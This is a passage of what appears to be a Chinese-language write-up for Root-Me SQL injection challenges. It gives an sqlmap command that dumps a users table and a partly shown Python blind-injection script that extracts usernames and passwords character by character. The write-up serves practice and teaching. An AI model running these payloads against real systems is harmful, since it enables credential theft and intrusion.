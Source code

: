 ```
				SHARE_Q.put(i)
		for i in range(10):
			thread=worker(scan)
			thread.start()
			threads.append(thread)
		for thread in threads:
			thread.join()
		SHARE_Q.join()
if __name__ == '__main__':
	main()
```

## 52.SQL injection - Time based
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch40/](http://challenge01.root-me.org/web-serveur/ch40/ "http://challenge01.root-me.org/web-serveur/ch40/")
\[+]Statement:获取管理员密码
\[+]Solution:在member页面可以注入，根据提示只能时间注入，放在sqlmap里跑即可。
\[+]Payload: &#x20;

```
python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" -v3 -D public -T users --dump
```

## 53.SQL injection - blind
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch10/](http://challenge01.root-me.org/web-serveur/ch10/ "http://challenge01.root-me.org/web-serveur/ch10/")
\[+]Statement:获得管理员密码
\[+]Solution:这个页面注册时可以注入登录，因此可以利用基于boolen的注入一步步猜解出数据库信息
\[+]Payload:盲注脚本如下 &#x20;
```
import requests,string,threading,queue,time
url="http://challenge01.root-me.org/web-serveur/ch10/"
username=''
password=''
payload=''
next=False
class myThread(threading.Thread):
    """docstring for myThread"""
    def __init__(self, func,queue):
        super(myThread, self).__init__()
        self.func=func
        self.queue=queue
    def run(self):
        while True:
            data=self.queue.get()
            self.func(data)
            self.queue.task_done()
def work(data):
    i,j,k=data
    global next,payload
    #username="1' or substr((select sql FROM sqlite_master where type='table'),{},1)='{}' --+".format(j,i)
    username="1' or substr((select username||':'||password FROM  users limit {},1),{},1)='{}' --+".format(k,j,i)
    print(username)
    data={"username":username,"password":'1'}
    
    page = ''
    while page == '':
        try:
            page = requests.post(url,data=data)
            break
```